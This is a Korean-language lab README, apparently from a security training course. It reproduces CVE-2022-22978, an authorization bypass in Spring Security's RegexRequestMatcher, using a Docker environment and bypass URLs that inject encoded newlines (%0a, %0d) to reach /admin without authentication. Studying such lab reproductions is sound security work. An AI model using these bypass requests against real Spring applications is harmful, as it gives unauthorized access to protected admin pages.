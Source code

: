 

# Spring Security RegexRequestMatcher 인증 우회 취약점 (CVE-2022-22978)

화이트햇 스쿨 3기(17반) -  [박성현](https://github.com/sh1220)
</br>

</br>

Spring Security 프레임워크는 Spring 프레임워크에서 보안 인증 기능을 제공하는 데 사용됩니다.  
Spring Security 버전 5.5.6, 5.6.3 및 그 이하의 지원되지 않는 버전들에서는,  
정규 표현식에 `.`(닷)을 사용하는 `RegexRequestMatcher`를 활용하는 애플리케이션이  
인증 우회(Authorization Bypass) 취약점에 노출될 수 있습니다.

## 참고 자료

- [Tanzu Security Advisory - CVE-2022-22978](https://tanzu.vmware.com/security/cve-2022-22978)
- [GitHub - DeEpinGh0st/CVE-2022-22978](https://github.com/DeEpinGh0st/CVE-2022-22978)

## 취약점 환경 구축

아래 명령어를 실행하여 Spring Security 5.6.3을 기반으로 한 웹 애플리케이션을 시작합니다:

```bash
docker compose up -d
```
![](docker.png)

서버가 정상적으로 기동된 이후,
브라우저에서 <http://your-ip:8080/admin>로 접속합니다:

![](forbidden.png)

## 취약점 재현 방법

다음과 같이 요청을 보내면 인증 없이 관리자 페이지에 접근할 수 있습니다:
- http://your-ip:8080/admin/%0atest
- http://your-ip:8080/admin/%0dtest

우회에 성공하면 정상적으로 접근되는 화면이 나타납니다.

![](bypassed.png)